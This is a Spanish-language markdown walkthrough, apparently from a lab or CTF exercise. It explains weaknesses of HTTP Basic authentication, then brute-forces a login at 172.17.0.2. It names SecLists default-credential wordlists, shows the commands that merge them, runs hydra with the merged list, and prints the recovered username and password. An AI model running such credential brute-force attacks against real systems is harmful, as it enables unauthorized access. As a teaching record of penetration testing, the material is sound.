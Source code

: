 ### **Seguridad y Riesgos**
- 🚨 **No es seguro por sí solo**:  
    Las credenciales codificadas en **Base64 no están cifradas** (cualquiera puede decodificarlas fácilmente).  
    Ejemplo: `YWRtaW46MTIz` → `admin:123` (usando [base64decode.org](https://www.base64decode.org/)).
- 🔐 **Requiere HTTPS**:  
    Para evitar robos de credenciales, **siempre debe usarse con HTTPS** (cifra la comunicación).
- ⚠️ **Vulnerabilidades**:
    - Sin HTTPS, es susceptible a ataques _Man-in-the-Middle_.
    - No protege contra ataques de repetición (_replay attacks_).
    - El cliente guarda credenciales en caché (hasta cerrar el navegador).

## Ataque HTTP Basic:
Para realizar un ataque de **fuerza bruta a autenticación HTTP Basic** usando el formato `usuario:contraseña` (como `admin:admin`) con **SecLists** necesitamos esto:
### **1. Archivos clave en SecLists**
Busca estos archivos en el directorio de SecLists (normalmente en `/usr/share/seclists` o `~/SecLists`):

| Ruta en SecLists                                                    | Contenido                                                                              |
| ------------------------------------------------------------------- | -------------------------------------------------------------------------------------- |
| **`/Passwords/Default-Credentials/avaya_defaultpasslist.txt`**      | **El más útil**. Contiene combinaciones comunes como `admin:admin`, `root:12345`, etc. |
| **`Passwords/Default-Credentials/default-http-auth-passwords.txt`** | Específico para credenciales HTTP.                                                     |
| `Passwords/Common-Credentials/top-20-common-SSH-passwords.txt`      | Incluye pares como `admin:admin` (no es exclusivo de SSH).                             |
| `Passwords/Common-Credentials/best110.txt`                          | Combinaciones cortas populares.                                                        |
Tenemos que revisar que todos tenga ese formato que necesitamos para realizar el ataque de fuerza bruta, Y una ves revisado los unificaremos en un solo archivo como diccionario para realizar el ataque de fuerza bruta
Para nuestro ataque unificamos estos dos diccionarios:
**( xcp )** Es un alias del comandos **xclip -sel clip**
```bash
cat /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt | xcp
cat /usr/share/SecLists/Passwords/Default-Credentials/avaya_defaultpasslist.txt | xcp
```

Para al final quedando un diccionario bajo el nombre de **http_basic_aut.txt**
Ahora el primer intento lo realizaremos con **hydra**
```bash
hydra -C http_basic_aut.txt 172.17.0.2 -s 80 http-get /
```

Con **hydra** logramos obtener las credenciales de acceso:
```bash
[DATA] attacking http-get://172.17.0.2:80/
[80][http-get] host: 172.17.0.2   login: httpadmin   password: fhttpadmin
```

Ahora estas credenciales las tendremos que usar para logueranos en el panel **HttpBasicAuth**
### Tecnologías Detectadas
Una ves ingresadas las credenciales ahora si podemos ver el contenido del servicio:

